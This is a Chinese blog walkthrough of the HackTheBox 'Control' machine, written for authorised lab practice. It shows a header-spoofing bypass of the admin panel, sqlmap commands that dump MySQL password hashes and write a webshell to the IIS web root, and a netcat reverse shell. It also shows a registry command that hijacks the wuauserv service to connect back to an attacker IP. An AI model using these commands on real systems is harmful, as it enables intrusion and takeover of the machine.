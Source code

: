 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/sFdd8RssPPOi0-v9oXQKwQ)

一个每日分享渗透小技巧的公众号![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPTQKiaXksbZia7PmHLPX2vnCWsznInTj3b9TFYtTDIYG6lDGJZYYSv72NsVWF24Kjlo4MT29tEOQSg/640?wx_fmt=png)

  

  

大家好，这里是 **大余安全** 的第 **93** 篇文章，本公众号会每日分享攻防渗透技术给大家。

  

靶机地址：https://www.hackthebox.eu/home/machines/profile/218

靶机难度：中级（4.5/10）

靶机发布日期：2020 年 4 月 21 日

靶机描述：

Control is a hard difficulty Windows machine featuring a site that is found vulnerable to SQL

injection. This is leveraged to extract MySQL user password hashes, and also to write a webshell

and gain a foothold. The password hash for the SQL user hector is cracked, which is used to

move laterally to their Windows account. Examination of the PowerShell history file reveals that

the Registry permissions may have been modified. After enumerating Registry service

permissions and other service properties, a service is abused to gain a shell as NT AUTHORITY\SYSTEM .

请注意：对于所有这些计算机，我是通过平台授权允许情况进行渗透的。我将使用 Kali Linux 作为解决该 HTB 的攻击者机器。这里使用的技术仅用于学习教育目的，如果列出的技术用于其他任何目标，我概不负责。

  

一、信息收集

  

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPbX8iagjAJHm0ltAHfNgSBpvp1QeMgFtUBicD4t3BbD7tafJdouM4ZPC9ic9zIsMDAFibDibec0421GBA/640?wx_fmt=png)

可以看到靶机的 IP 是 10.10.10.167....

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPbX8iagjAJHm0ltAHfNgSBp0UMq54LicMiciaf2PayjmFIG8pibwXWtzBI49UQpK5XuYAqGI0usib6dficQ/640?wx_fmt=png)

namp 可以发现运行着 MySQL 和 IIS，IIS 版本是 10.0，可能这是 Windows Server 2016 或 Windows Server 2019...

http 也开放着...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPbX8iagjAJHm0ltAHfNgSBpsoicwwlpuN58RdnfRQKiasPcU7KrP9KJyqq7ianjWTqnc9hb5MCCzuTaA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPbX8iagjAJHm0ltAHfNgSBpu9VRPJACSUpL5fpkMoj7zt4PNe1n3lE42K3KVUibRYvZjU4Av1x6Htg/640?wx_fmt=png)

访问 http 服务，查看前端源码发现该网站启用 HTTPS，并且证书已存储在 192.168.4.28....

这是个重要的信息...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPbX8iagjAJHm0ltAHfNgSBpxtHKzkAG7W8gOvX2v61B9acQFtbU8FJ1p8xnHol8FibmqDicFOcDGhZQ/640?wx_fmt=png)

返回查看 admin 模块，提示 header 代理问题... 通过 google 可以发现这是 X-Forwarded-For 头部插入...

推荐文章：

```
https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Forwarded-For
```

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPbX8iagjAJHm0ltAHfNgSBpuFSG7rEKdU2qsWQVsTUnBsW9xeIEAvWjF8oJfXojcfQwicTNMljlDlg/640?wx_fmt=png)

通过 bp 插入 X-Forwarded-For，IP 是前面前端发现的 IP 后... 跳转到了管理面板中...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPbX8iagjAJHm0ltAHfNgSBpYUToHL8iaB3CNXoQibY0lBkXyS6VYUEunNPfqCEibOZWgSD62Edian8fhw/640?wx_fmt=png)

尝试进行 sql 简单测试，发现存在注入...

为了减少时间，直接利用 sqlmap...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPbX8iagjAJHm0ltAHfNgSBp16yAEQRRwntAcxPG4f26uPf95pIZRDpI5aExbaeEHCZan6yDxVURMQ/640?wx_fmt=png)

```
sqlmap -r dayu.txt --level 5 --risk 3 --threads 10 --batch -D mysql -T user -C User,Password --dump
```

由于前面 nmap 发现 mysql 开放着，直接利用 sqlmap 获得了所有 user 的 passwd....

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPbX8iagjAJHm0ltAHfNgSBpff4BseBo4nykqpnUex6BqMJYo3drrOwmuRfA6oLZQ0thK4tVZccoHA/640?wx_fmt=png)

对 hash 值进行爆破，轻松获得了密码...

现在获得了 mysql 账号和密码信息...

下面思路应该是获得低权 shell 后，需要利用密码修改 $pass 值，或者工具转发等，继续...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPbX8iagjAJHm0ltAHfNgSBp2Nb603cxbKczCdI3QYicXicz0ibsBtbbE6uzqpPdiapqAKIYlSk4YRCZHA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPbX8iagjAJHm0ltAHfNgSBpYLbgib8UiafJsLaaUzcaRAI8OjGMCLVTZc42IqXBcMNPdRH5z17tMrxg/640?wx_fmt=png)

```
sqlmap -r dayu.txt --level 5 --risk 3 --threads 10 --batch --file-write=/root/Desktop/dayuControl/dayucmd.php --file-dest="C:\\inetpub\\wwwroot\\dayucmd.php"
```

这里很多种方法可以上传 shell...

我这里通过我没尝试过的一种 sqlmap 的 --file-write 方法上传了文件或者 shell... 成功上传...

这里还可以利用 powershell... 或者利用简单的 cmd... 执行上传都可以...（跳过）

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPbX8iagjAJHm0ltAHfNgSBpCOkniaIMYHTS5knicpAdt47N8yQAUicRI7JHCnZ6MmX9h4xaE4A177eEQ/640?wx_fmt=png)

通过上传的简单 cmd 脚本，正常执行命令...

那这里就简单了...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPbX8iagjAJHm0ltAHfNgSBpialmibCQMjxVEBdjrnJB4fLHv1lWibakZmP46HzvHWw8kYZGF0uwZWuMQ/640?wx_fmt=png)

个人觉得 NC 比较稳定，上传了 nc 后获得了反向外壳...

查看用户列表，目前获得的权限不足以查看 user 信息... 需要利用前面获得的 hector 用户的密码进行提权...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPbX8iagjAJHm0ltAHfNgSBpgibazvibIx24mfibRYX2kLdwBD18XHu0S0TW46udTMggwVlTia7BbYsf7g/640?wx_fmt=png)

可以查看到 hector 存在的 group 信息...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPbX8iagjAJHm0ltAHfNgSBpiby5JibbSagQtzggjpvxpMia2WcVlK5Aw1ibgh04iatibxdI8TFbkDfWXnFA/640?wx_fmt=png)

这里有两种方法可以获得 hector 权限... 一种修改 pass/cred 值直接提到 hector 权限后执行 shell 即可获得外壳...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPbX8iagjAJHm0ltAHfNgSBpjXAMR5QeVwaibXOS7AuE24I4rywk40rwzKbI6LNibyicl6RcmO3c6SoJg/640?wx_fmt=png)

另外一种通过 netstat 查看到 windows 开放了 5985 端口，前面 nmap 没有发现开放的状态，所以该端口仅在 localhost 上开放着...

这里就可以利用 evil-winrm 访问该端口，利用 kali 自带的 plink.exe 上传到 windows 中，转发下端口即可...

这里就不演示了... 前面讲过很多...

成功获得了 user 信息...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPbX8iagjAJHm0ltAHfNgSBpUazzUEEm704NokX8Mr6AkMoNOqPMwbdcK10snbUl7zSMhkkykjEatQ/640?wx_fmt=png)

```
get-acl HKLM:\System\CurrentControlSet\services\* | Format-List *
```

这里检查 PowerShell 历史记录所有的文件，可以看到 wuauserv 在为 hector 工作着... 可以利用 wuauserv 服务修改其启动路径，然后获得反向外壳...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPbX8iagjAJHm0ltAHfNgSBpZFreOH9ibWwMNKZtLCCwr4mwlj6K8sgXMl3spazDsstFwMT35WTjgxg/640?wx_fmt=png)利用 sc.exe 查看了服务的启动路径...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPbX8iagjAJHm0ltAHfNgSBpZ1S4e1Qnxq6uw7urADpwCSWrY3yOKMNEh2sicKgvw52um2y4JDLSVoA/640?wx_fmt=png)

```
reg add HKLM\System\CurrentControlSet\services\wuauserv /t REG_EXPAND_SZ /v ImagePath /d "C:\Users\Hector\documents\nc64.exe 10.10.14.51 5555 -e cmd.exe" /f
```

然后通过 reg 添加另外的启动命令到 wuauserv 服务中，在利用 sc 进行重新启用... 获得了反向外壳...

获得了 system 权限读取到了 root 信息...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPbX8iagjAJHm0ltAHfNgSBpibiaXiaKO4ZLss0YNcrdbztAiak1DoM98tbArAibuzLPNyQpXCMK5GBC7HA/640?wx_fmt=png)

这里我上传了 winPEAS 工具爬了所有的信息内容，里面还是很多有趣的信息... 喜欢研究的可以深入看看...

这台主要学到了 sqlmap 的挖掘和上传功能... 其他的内容都是前面讲过的...

这是一台不久刚从 Active 退到 Retired 的机子...

加油！！！

由于我们已经成功得到 system 权限查看 root.txt，因此完成这台中级的靶机，希望你们喜欢这台机器，请继续关注大余后期会有更多具有挑战性的机器，一起练习学习。

如果你有其他的方法，欢迎留言。要是有写错了的地方，请你一定要告诉我。要是你觉得这篇博客写的还不错，欢迎分享给身边的人。

如果觉得这篇文章对你有帮助，可以转发到朋友圈，谢谢小伙伴~

![](https://mmbiz.qpic.cn/mmbiz_png/c5xrRn4430AnqkfAJc38Vpnc5XiaADLTjiciciaibYU4EHw3Nuh7YMtuB0hz3sb8Em9iatt5skAsibuuysPLdLY5LtWOw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/p3lIbvldZiabdI5iaCb3icRhtygUuo2sp6Hcdq0ANlpy5W3gL628uq032jsoVnGnl6HdGrgDXjfazFtkp6IInibDdQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPqjaFWwyrrhiciahSpOibxqKvSIFX0iaPcG00CjYIwQDwIDeIicmFMlOVNyhWYVSE8pJK566UK3YOUNWQ/640?wx_fmt=png)

随缘收徒中~~ **随缘收徒中~~** **随缘收徒中~~**

欢迎加入渗透学习交流群，想入群的小伙伴们加我微信，共同进步共同成长！

![](https://mmbiz.qpic.cn/mmbiz_png/ndicuTO22p6ibN1yF91ZicoggaJJZX3vQ77Vhx81O5GRyfuQoBRjpaUyLOErsSo8PwNYlT1XzZ6fbwQuXBRKf4j3Q/640?wx_fmt=png)  

大余安全

一个全栈渗透小技巧的公众号

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPTQKiaXksbZia7PmHLPX2vnCSsnsc7MHh257oYRic1MOT8qibABNUEnTq9DUL7QBwnS52EheJf4m8iaTQ/640?wx_fmt=png)